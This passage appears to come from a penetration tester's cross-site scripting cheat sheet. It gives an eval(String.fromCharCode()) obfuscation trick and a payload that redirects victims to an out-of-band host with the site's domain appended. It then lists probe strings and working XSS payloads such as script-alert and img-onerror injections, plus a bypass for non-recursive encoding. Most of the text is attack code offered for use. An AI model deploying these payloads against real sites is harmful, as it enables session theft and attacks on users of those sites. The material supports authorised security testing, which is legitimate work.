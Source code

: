 As a quick note, you can use eval() and String.fromCharCode() to encode a full payload (CyberChef --> To Decimal --> Delimiter set to "comma" --> Copy/Paste):

```javascript
eval(String.fromCharCode(INSERT_PAYLOAD));
```

You can also use the following payload:

```javascript
window['document']['location'] = "https://j3y25yhg.oastify.com/?test=" + document.domain + "test123"
```
# Initial Probing

Submit a test string to all input fields one at a time and identify the context in which the data is being returned in the responses. For stored XSS, you can add the parameter name to the payload. The below test strings will verify how the app responds to angle brackets, parentheses, quotation marks, and single quotes:

```javascript
<>"'/\`
```

```javascript
Test123parameterName
```

```html
<<u>Test123</u>
```

```html
<script>alert("Test123)</script>
```

```html
<script>alert('Test123')</script>
```

Depending on the context, the following payloads can be used to break out of the context and potentially execute XSS.
# XSS Between HTML tags and DOM XSS

If injected input is not being validated or encoded, you can simply use the standard XSS payloads below:

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1)>
```

The app may be encoding the injected tags, but not in a recursive way. The \<test> tag may be properly encoded and rendered as data, but the rest of the payload will be executed as code.

```html
<test> <img src=x onerror=alert(1)>
```
